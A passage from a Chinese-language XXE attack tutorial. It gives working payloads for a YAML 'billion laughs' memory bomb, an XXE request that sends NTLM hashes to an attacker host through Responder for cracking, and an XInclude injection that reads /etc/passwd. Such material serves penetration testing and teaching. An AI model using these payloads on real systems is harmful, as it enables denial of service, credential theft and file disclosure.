 如以上代码所示，在XMl中定义了一个实体 lol9，它的值包含了十个实体 lol8 的值，而每个 lol8 又包含了十个 lol7 的值...最后产生10亿个“lol”字符串，占用内存约高达3GB。

#### Yaml Attack

```yaml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### Quadratic Blowup Attack

![img](XXE.assets/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-MbWEdJKBVabaZIn44QL%2F-MbWp86h82tU7WRPbY0V%2Fimage.png)

#### 获取 NTML

在Windows主机上，可以通过设置响应程序来获取web服务器用户的NTML哈希。py处理程序：

```bash
Responder.py -I eth0 -v
```

然后发送以下请求：

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

接着便可以尝试使用 hashcat 破解哈希

### Hidden XXE Surfaces

#### XInclude

一些应用程序接收客户端提交的数据，在服务器端将其嵌入到XML文档中，然后解析该文档。当客户端提交的数据被放置到后端SOAP请求中，然后由后端SOAP服务处理时，就会出现这种情况。

在这种情况下，你不能进行经典的XXE攻击，因为您无法控制整个XML文档，因此无法定义或修改DOCTYPE元素。但是，或许可以改用XInclude。XInclude是XML规范的一部分，它允许从子文档构建XML文档。您可以在XML文档中的任何数据值中进行XInclude攻击，因此，在只控制放入服务器端XML文档中的单个数据项的情况下，可以执行攻击。

要执行XInclude攻击，您需要引用XInclute命名空间并提供要包含的文件的路径。例如：

```xml-dtd
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

#### SVG - File Upload

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式有DOCX等办公文档格式和SVG等图像格式。
